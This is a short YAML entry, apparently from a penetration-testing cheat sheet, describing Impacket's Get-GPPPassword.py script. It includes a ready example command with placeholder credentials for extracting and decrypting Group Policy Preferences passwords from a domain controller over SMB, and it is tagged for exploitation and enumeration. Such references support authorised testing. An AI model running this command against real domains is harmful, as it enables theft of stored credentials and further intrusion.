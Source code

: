 ```yaml
---
description: |
  Python script to automatically extract and decrypt Group Policy Preferences (GPP) passwords using streams for carving files instead of mounting shares

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1
items:
  - Password
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - Enumeration
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py
  - https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/
---
```

